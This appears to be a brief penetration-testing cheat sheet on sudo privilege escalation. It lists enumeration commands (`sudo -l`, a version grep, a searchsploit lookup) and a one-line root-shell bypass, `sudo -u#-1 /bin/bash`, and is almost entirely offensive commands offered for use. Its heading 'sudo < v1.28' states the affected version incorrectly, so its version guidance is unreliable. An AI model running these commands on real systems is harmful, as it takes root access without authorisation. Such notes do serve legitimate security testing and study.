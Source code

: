 # Sudo

Check which commands the current user may run

```sh
sudo -l
```

## sudo version

Check sudo version

```sh
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

## Searchsploit

```sh
searchsploit sudo
```

## sudo < v1.28

```sh
sudo -u#-1 /bin/bash
```
